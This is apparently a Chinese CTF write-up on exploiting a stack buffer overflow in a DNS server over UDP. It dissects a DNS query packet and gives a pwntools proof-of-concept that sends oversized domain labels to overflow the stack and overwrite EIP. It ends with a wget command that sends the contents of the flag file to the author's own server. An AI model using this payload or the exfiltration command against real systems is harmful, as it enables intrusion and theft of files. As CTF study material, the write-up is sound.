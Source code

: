 ![](https://pic.imgdb.cn/item/62d5122bf54cd3f937efa4cd.png)

观察正常的报文段（Data段，去掉udp头）

```
0000   4a 44 01 20 00 01 00 00 00 00 00 01 05 62 61 69   JD. .........bai
0010   64 75 03 63 6f 6d 00 00 01 00 01 00 00 29 10 00   du.com.......)..
0020   00 00 00 00 00 0c 00 0a 00 08 e1 c5 a8 e3 04 7e   ...............~
0030   4e 5b                                             N[
```

报文可以分成3个部分：head domain 和 end

```
Head : 4a4401200001000000000001
```

````
Domain : 05626169647503636f6d
````

````
End : 0000010001000029100000000000000c000a0008e1c5a8e3047e4e5b
````

前后都不需要管，只需要处理中间的Domain段即可

Domain会把一个域名通过`.`分成多个label，每个label最长不能超过63字节，算上最前面的label长度也就是64字节。这里可以用pwntools构造一个POC发过去试下：

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='i386')
context.log_level = 'debug'
p = remote("127.0.0.1","9999",typ='udp')

head = '4a4401200001000000000001'
exp = ('3f'+'61'*0x3f)*0x10
end = '0000010001000029100000000000000c000a0008e1c5a8e3047e4e5b'
payload = head + exp + end 
data = payload.decode('hex')
p.send(data)
````

数据包解析正确，这里的n=0x400，而根据IDApro分析这里的栈空间只有0x350，溢出了0x50个字节。

![](https://pic.imgdb.cn/item/62d513eef54cd3f937f2c85a.png)

调节下偏移覆盖EIP

![](https://pic.imgdb.cn/item/62d51a3df54cd3f937fc2269.png)

之后就是喜闻乐见的rop环节

不过这题是真实网络环境且DNS服务器使用UDP协议传输，没法获得建立连接的文件描述符，所以可以采用wget把flag发给自己的vps的方法得到flag

````bash
$ wget http://xxx.xxx.xxx.xxx:9999/`cat flag`
````
